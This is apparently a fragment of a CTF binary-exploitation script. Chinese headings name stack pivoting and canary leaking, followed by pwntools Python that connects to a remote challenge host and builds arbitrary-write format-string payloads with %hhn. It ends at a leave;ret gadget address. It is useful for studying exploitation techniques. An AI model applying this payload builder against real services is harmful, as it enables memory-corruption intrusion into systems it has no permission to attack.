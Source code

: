 1. 栈迁移
2. 泄露canary
```python
from pwn import *


is_local=0
if is_local:
    io=process("./pwn")
else:
    io=remote("10.10.175.100",33233)

elf=ELF("./pwn")


def hexlog(number:int):
    print(hex(number))

def debug():
    gdb.attach(io)
    pause()

def fmt_str(offset:int,writeSize:int ,addr:int, target:int, bitmode:int):
    payload = b""
    offset_bais=0
    targets=[(target >> i * 8)&0xff for i in range(writeSize)]
    prev = 0
    fmtstrs=[]
    for word in targets:
        if prev < word:
            result = word - prev
            fmtstrs.append(b"%" + str(result).encode() + b"c")
            prev+=result
            prev=prev&0xff
        elif prev == word:
            result = 0
            fmtstrs.append(b"")
        else:
            result = 256 + word - prev
            fmtstrs.append(b"%" + str(result).encode() + b"c")
            prev+=result
            prev=prev&0xff

    while True:
        prev_len=0
        for i in range(writeSize):
            prev_len+=len(fmtstrs[i])
            prev_len+=len(b"%" + str(offset_bais+offset+i).encode() + b"$hhn")
        if(offset_bais==math.ceil(prev_len/8)):
            break
        offset_bais+=1
    for i in range(writeSize):
        payload+=fmtstrs[i]
        payload+=b"%" + str(offset_bais+offset+i).encode() + b"$hhn"
    payload+=(8-len(payload)%8)*b'a'    
    for i in range(writeSize):
        if bitmode==32:
            payload+=p32(addr+i)
        else:
            payload+=p64(addr+i)
    return payload


leave_ret=0x4012ff
```